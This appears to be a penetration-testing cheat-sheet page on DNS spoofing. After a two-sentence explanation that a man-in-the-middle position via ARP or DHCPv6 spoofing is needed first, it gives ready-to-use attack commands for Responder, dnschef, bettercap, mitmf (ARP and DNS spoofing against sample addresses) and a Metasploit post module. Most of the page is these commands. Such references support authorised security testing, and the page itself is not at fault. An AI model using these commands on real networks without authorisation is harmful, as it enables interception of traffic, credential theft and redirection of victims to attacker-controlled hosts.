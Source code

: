 # ⭕ DNS Spoofing



DNS is not multicast or broadcast like LLMNR, NBT-NS or mDNS. In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with ARP spoofing or DHCPv6 spoofing. DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

### <mark style="color:orange;">Responder</mark>

```
responder --interface "eth0"
responder -I "eth0"
```

### <mark style="color:orange;">dnschef</mark>

```
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```

### <mark style="color:orange;">bettercap</mark>

```
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```

### <mark style="color:orange;">mitmf (deprecated)</mark>

```
mitmf --arp --spoof --gateway 10.0.0.1 --target 10.0.0.56 -i wlan0 --dns
```

### <mark style="color:orange;">metasploit</mark>

```
use post/linux/manage/dns_spoofing
```
